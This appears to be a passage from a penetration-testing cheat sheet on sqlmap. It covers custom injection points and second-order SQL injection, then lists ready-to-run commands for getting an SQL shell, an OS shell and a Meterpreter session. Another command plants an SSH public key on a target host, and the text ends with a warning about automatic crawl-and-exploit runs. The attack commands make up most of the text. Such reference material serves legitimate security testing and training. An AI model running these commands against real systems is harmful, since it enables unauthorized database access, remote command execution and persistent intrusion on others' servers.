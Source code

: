 A custom injection point in SQLmap allows you to specify exactly where and how SQLmap should attempt to inject payloads into a request. This is useful when dealing with more complex or non-standard injection scenarios that SQLmap may not detect automatically.

By defining a custom injection point with the wildcard character '`*`' , you have finer control over the testing process, ensuring SQLmap targets specific parts of the request you suspect to be vulnerable.

```powershell
sqlmap -u "http://example.com" --data "username=admin&password=pass"  --headers="x-forwarded-for:127.0.0.1*"
```

## Second Order Injection

A second-order SQL injection occurs when malicious SQL code injected into an application is not executed immediately but is instead stored in the database and later used in another SQL query.

```powershell
sqlmap -r /tmp/r.txt --dbms MySQL --second-order "http://targetapp/wishlist" -v 3
sqlmap -r 1.txt -dbms MySQL -second-order "http://<IP/domain>/joomla/administrator/index.php" -D "joomla" -dbs
```

## Getting A Shell

* SQL Shell:

    ```ps1
    sqlmap -u "http://example.com/?id=1"  -p id --sql-shell
    ```

* OS Shell:

    ```ps1
    sqlmap -u "http://example.com/?id=1"  -p id --os-shell
    ```

* Meterpreter:

    ```ps1
    sqlmap -u "http://example.com/?id=1"  -p id --os-pwn
    ```

* SSH Shell:

    ```ps1
    sqlmap -u "http://example.com/?id=1" -p id --file-write=/root/.ssh/id_rsa.pub --file-destination=/home/user/.ssh/
    ```

## Crawl And Auto-Exploit

This method is not advisable for penetration testing; it should only be used in controlled environments or challenges. It will crawl the entire website and automatically submit forms, which may lead to unintended requests being sent to sensitive features like "delete" or "destroy" endpoints.
